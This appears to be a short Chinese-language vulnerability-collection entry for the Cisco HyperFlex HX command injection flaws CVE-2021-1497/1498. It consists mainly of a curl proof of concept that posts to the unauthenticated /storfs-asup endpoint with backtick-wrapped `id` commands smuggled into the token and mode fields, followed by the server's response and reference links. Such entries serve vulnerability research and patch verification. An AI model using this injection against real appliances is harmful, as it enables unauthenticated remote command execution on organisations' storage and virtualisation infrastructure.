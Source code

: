 # Cisco HyperFlex HX 命令注入（CVE-2021-1497/CVE-2021-1498）


Cisco HyperFlex HX的基于Web的管理界面中的多个漏洞可能允许未经身份验证的远程攻击者对受影响的设备执行命令注入攻击。


```
wvu@kharak:~$ curl -v http://192.168.123.133/storfs-asup -d 'action=&token=`id`&mode=`id`'
*   Trying 192.168.123.133...
* TCP_NODELAY set
* Connected to 192.168.123.133 (192.168.123.133) port 80 (#0)
> POST /storfs-asup HTTP/1.1
> Host: 192.168.123.133
> User-Agent: curl/7.64.1
> Accept: */*
> Content-Length: 28
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 28 out of 28 bytes
< HTTP/1.1 200 OK
< Server: nginx/1.8.1
< Date: Tue, 18 May 2021 00:54:26 GMT
< Content-Length: 0
< Connection: keep-alive
< Front-End-Https: on
<
* Connection #0 to host 192.168.123.133 left intact
* Closing connection 0
wvu@kharak:~$

```

ref：

* https://attackerkb.com/topics/mDqlWhQovO/cve-2021-1497?referrer=home
* https://nvd.nist.gov/vuln/detail/CVE-2021-1497
* https://nvd.nist.gov/vuln/detail/CVE-2021-1498